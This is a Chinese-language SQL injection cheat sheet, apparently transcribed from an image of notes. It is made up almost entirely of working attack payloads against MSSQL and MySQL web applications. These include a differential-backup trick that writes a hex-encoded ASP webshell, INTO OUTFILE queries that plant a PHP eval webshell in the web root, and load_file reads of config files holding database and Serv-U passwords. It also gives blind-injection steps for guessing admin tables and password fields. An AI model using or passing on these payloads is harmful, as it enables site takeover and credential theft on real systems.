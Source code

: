 		爆料出正确值
		and (select top 1 asc(substring(字段,1,1)) from 表名)>0
	差异备份
		//备份数据库到某处
			;backup database 数据库名 to disk ='c:\\charlog.bak';--
		//创建名为datachar的表
			;create table [dbo].[datachar] ([cmd] [image])    	//cmd为列名 image 数据类型
		//插入值,为一句话木马的16进制形式：<%execute(request("a"))%>
			;insert into datachar(cmd)values(0x3C25657865637574652872657175657374282261222929253E)—
		//进行差异备份,把不同的信息备份到某处
			;backup database 数据库名 to disk='目录' WITH DIFFERENTIAL,FORMAT;-- 
			
	读写文件：
		select 1,load_file('c:/boot.ini'),3,4 from ka_admin
		select '<?php eval($_POST[cmd])?>' into outfile 'D:/PHPnow-1.5.4/htdocs/index2.php' 
		select * from a into outfile 'D:/PHPnow-1.5.4/htdocs/index2.php'
		注意事项：
			（1）outfile后面不能接0x开头或者char转换以后的路径，只能是单引号路径。这个问题在php注入中更加麻烦，因为会自动将单引号转义成\',那么基本没的玩了。
				唯一的一种可能就是你使用mysql远程连接，然后直接在mysql中执行命令，就没有查询限制了。当然，你要是找到了phpmyadmin，也可以。
			（2）load_file，后面的路径可以是单引号、0x、char转换的字符。这而记得路径中的斜杠是/而不是\。
				一般用load_file来看config.php（即mysql的密码）,apache配置、servu密码等。前提是要知道物理路径。
			（3）load_file可以在union中作为一个字段来用。如union select 1,load_file('c:/boot.ini'),3,4 from ka_admin等。
			（4）load_file可以在where字句中使用。如 and length(load_file(0x633A2F626F6F742E696E69))>1
			（5）load_file文件的时候，特别是想看exe等含有二进制的00等截断或者回车 换行等特殊符号时，可以结合hex函数。
			如union select 1,hex(load_file('c:/windows/notepad.exe')),3 from xxxx，这样就不会存在截断了，也不会一会断行而截断。自己再用个工具或者几行代码转换回来就是了。
			（6）outfile一句话（经典）：
			select '<?php eval($_POST[cmd])?>' into outfile 'D:/PHPnow-1.5.4/htdocs/index2.php'或者从表中
			select * from a into outfile 'D:/PHPnow-1.5.4/htdocs/index2.php'
			 （7）关于mysql多语句：直接在mysql中，可以同时select中使用update或者insert，但是php注入中就不行，至少我测试的是php的函数mysql_query是不行。
					
	load_file()、 into outfile() 、informaction_schema、char()、cast()和limit
	
	{1.判断有无注入点
	; and 1=1 and 1=2
	
	2.猜表一般的表的名称无非是admin adminuser user pass password 等..
	and 0<>(select count(*) from *)
	and 0<>(select count(*) from admin) ---判断是否存在admin这张表
	
	3.猜帐号数目 如果遇到0< 返回正确页面 1<返回错误页面说明帐号数目就是1个
	and 0<(select count(*) from admin)
	and 1<(select count(*) from admin)
	
	4.猜解字段名称 在len( ) 括号里面加上我们想到的字段名称.
	and 1=(select count(*) from admin where len(*)>0)--
	and 1=(select count(*) from admin where len(用户字段名称name)>0)
	and 1=(select count(*) from admin where len(_blank>密码字段名称password)>0)
	
	5.猜解各个字段的长度 猜解长度就是把>0变换 直到返回正确页面为止
	and 1=(select count(*) from admin where len(*)>0)
	and 1=(select count(*) from admin where len(name)>6) 错误
	and 1=(select count(*) from admin where len(name)>5) 正确 长度是6
	and 1=(select count(*) from admin where len(name)=6) 正确
	